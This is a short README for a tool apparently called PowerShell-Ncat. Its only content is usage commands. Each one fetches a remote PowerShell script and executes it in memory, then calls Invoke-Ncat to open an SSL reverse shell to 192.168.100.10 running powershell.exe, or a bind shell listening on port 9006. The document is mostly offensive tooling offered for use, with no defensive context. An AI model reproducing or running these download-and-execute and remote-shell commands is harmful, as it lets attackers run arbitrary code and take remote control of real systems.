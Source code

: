 # PowerShell-Ncat

# Usage - Reverse Shell

Invoke-Expression(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/whitej3rry/PowerShell-Ncat/master/Invoke-Ncat.ps1')

Invoke-Ncat -ArgumentList "192.168.100.10 -v -ssl -e powershell.exe"

# Usage - Bind Shell
Invoke-Expression(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/whitej3rry/PowerShell-Ncat/master/Invoke-Ncat.ps1')

Invoke-Ncat -ArgumentList "-l 9006 -v -ssl -e powershell.exe"


